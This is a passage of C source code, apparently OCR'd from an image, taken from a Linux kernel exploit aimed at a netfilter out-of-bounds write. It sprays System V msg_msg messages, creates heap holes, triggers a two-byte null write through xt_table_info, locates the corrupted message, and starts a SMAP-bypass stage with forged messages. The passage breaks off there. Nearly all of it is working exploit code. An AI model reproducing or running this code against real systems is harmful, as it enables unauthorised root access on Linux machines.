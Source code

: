 ```c
      goto err_rmid;
  }
// 1-3. create 4096 secondary msg —— size=0x400
  printf("[*] Spraying secondary messages...\n");
  for (int i = 0; i < NUM_MSQIDS; i++) {
    memset(&msg_secondary, 0, sizeof(msg_secondary));
    *(int *)&msg_secondary.mtext[0] = MSG_TAG;
    *(int *)&msg_secondary.mtext[4] = i;
    if (write_msg(msqid[i], &msg_secondary, sizeof(msg_secondary),
                  MTYPE_SECONDARY) < 0)
      goto err_rmid;
  }
// 1-4. release #1024/#2048/#3072 msg
  printf("[*] Creating holes in primary messages...\n");
  for (int i = HOLE_STEP; i < NUM_MSQIDS; i += HOLE_STEP) {
    if (read_msg(msqid[i], &msg_primary, sizeof(msg_primary), MTYPE_PRIMARY) <
        0)
      goto err_rmid;
  }
// 1-5. make xt_table_info struct take up the hole, and triger 2 bytes null write
  printf("[*] Triggering out-of-bounds write...\n");
  if (trigger_oob_write(s) < 0)
    goto err_rmid;
// 1-6. find which msg is corrupted
  printf("[*] Searching for corrupted primary message...\n");
  for (int i = 0; i < NUM_MSQIDS; i++) {
    if (i != 0 && (i % HOLE_STEP) == 0)
      continue;
    if (peek_msg(msqid[i], &msg_secondary, sizeof(msg_secondary), 1) < 0)
      goto err_no_rmid;
    if (*(int *)&msg_secondary.mtext[0] != MSG_TAG) {
      printf("[-] Error could not corrupt any primary message.\n");
      goto err_no_rmid;
    }
    if (*(int *)&msg_secondary.mtext[4] != i) {
      fake_idx = i;
      real_idx = *(int *)&msg_secondary.mtext[4];
      break;
    }
  }

  if (fake_idx == -1 && real_idx == -1) {
    printf("[-] Error could not corrupt any primary message.\n");
    goto err_no_rmid;
  }

  // fake_idx's primary message has a corrupted next pointer; wrongly pointing to real_idx's secondary message.
  printf("[+] fake_idx: %x\n", fake_idx);
  printf("[+] real_idx: %x\n", real_idx);

  printf("\n");
  printf("[+] STAGE 2: SMAP bypass\n");
// 2. leak secondary msg address (kmalloc-0x400) -> to forge `msg_msg->m_list->next & prev`
// 2-1. free overlapped msg
  printf("[*] Freeing real secondary message...\n");
  if (read_msg(msqid[real_idx], &msg_secondary, sizeof(msg_secondary),
               MTYPE_SECONDARY) < 0)
    goto err_rmid;

  // Reclaim the previously freed secondary message with a fake msg_msg of maximum possible size.
// 2-2. spray and forge msg_msg (forge larger msg_msg->m_ts)
  printf("[*] Spraying fake secondary messages...\n");
```